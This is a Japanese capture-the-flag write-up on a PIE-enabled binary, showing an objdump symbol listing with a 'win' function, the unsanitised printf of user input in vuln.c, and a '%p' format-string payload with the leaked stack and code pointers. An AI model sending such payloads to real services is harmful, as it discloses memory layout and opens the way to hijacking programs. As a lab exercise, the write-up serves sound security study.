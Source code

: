 まずは PIE TIME でもやった `objdump` で dump.txt をつくる。以下はその抜粋。

```
vuln:	file format elf64-x86-64

Disassembly of section .init:

0000000000001000 <_init>:

Disassembly of section .plt:

0000000000001020 <.plt>:

Disassembly of section .plt.got:

00000000000010f0 <.plt.got>:
00000000000010f5 <__cxa_finalize@plt>:

Disassembly of section .plt.sec:

0000000000001100 <.plt.sec>:

Disassembly of section .text:

00000000000011c0 <_start>:
00000000000011f0 <deregister_tm_clones>:
0000000000001220 <register_tm_clones>:
0000000000001260 <__do_global_dtors_aux>:
00000000000012a0 <frame_dummy>:
00000000000012a9 <segfault_handler>:
00000000000012c7 <call_functions>:
000000000000136a <win>:
0000000000001400 <main>:
0000000000001450 <__libc_csu_init>:
00000000000014c0 <__libc_csu_fini>:

Disassembly of section .fini:

00000000000014c8 <_fini>:
```

本問ではサーバー側の実行時情報が何もわからないため、まだ解くには至らない。

配布された `vuln.c` を読むと Enter your name: のユーザー入力をそのまま `printf` していることがわかる。ここに脆弱性があり、フォーマット文字列攻撃で何かしらのアドレス情報を得られる。そこで `%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p` を送信すると、28 個のポインタ値が返ってくる。\
以下はその出力 (改行は手作業)　実行時依存なので毎回こうなるとは限らない

```
0x61a9c1ee42a1
(nil)
0x61a9c1ee42d9
0x7ffc0279cdb0
0x7c
0x7ffc027b8228
0x7357f72336a0
0x7025702570257025
0x7025702570257025
0x7025702570257025
0x7025702570257025
0x7025702570257025
0x7025702570257025
0x7025702570257025
0x7ffc0279000a
0x61a9bbbd41c0
0x20e8c4c0cf39a00
0x7ffc0279ce10
```